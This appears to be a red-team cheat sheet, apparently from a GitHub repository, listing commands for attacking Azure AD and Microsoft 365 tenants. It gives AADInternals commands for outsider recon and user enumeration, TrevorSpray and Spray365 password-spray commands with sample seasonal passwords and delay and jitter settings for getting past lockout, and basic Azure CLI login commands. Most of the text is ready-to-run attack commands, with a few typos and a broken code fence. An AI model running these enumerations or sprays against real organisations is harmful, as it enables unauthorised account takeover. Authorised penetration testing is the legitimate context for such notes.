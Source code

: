 # External Enumeration
## AADIntReconAsOutsider
```powershell
Invoke-AADIntReconAsOutsider -DomainName hitbox.com | Format-Table
Get-Content .\Users.txt | Invoke-AADIntUserEnumerationAsOutsider -UserName
```

# Password Spray
## TrevorSpray
### Perform Recon
```cmd
trevorspray --recon target.com
```
### Perform Spray Against Users
```cmd
treverspray -u emails.txt -p 'Spring2020'
``` 
### Jitter Random Deviation of delay between requests
```cmd
trevorspray -u emails.txt -p 'Spring2020' -delay 60 -jitter 20 -lockout-delay 60
```
## Spray365
### Generate an execution plan
```cmd
python3 spray365.py generate --ep plan.365 -d <target.com> -u users.txt -p Spring2022
```
### Generate an execution plan - random user agent - delay 15s between requests
```cmd
python3 spray365.py generate --ep plan2.365 -d <target.com> -u users.txt -p Spring2022 -rUA -delay 15
```
### execute Plan
```cmd
python3 spray365.py spray --ep plan.365 <path_to_plan>
```

# Azure CLI
## login
```cmd
az login
```
## login - Submit Code flow credentials directly
```cmd
az login -u <user> -p <pass>
```
## login - Leveraged Identity
```cmd
az --i
```
## login - Use Device Code Flow
```cmd
az --device-code
```
## VMs
``cmd
az vm
```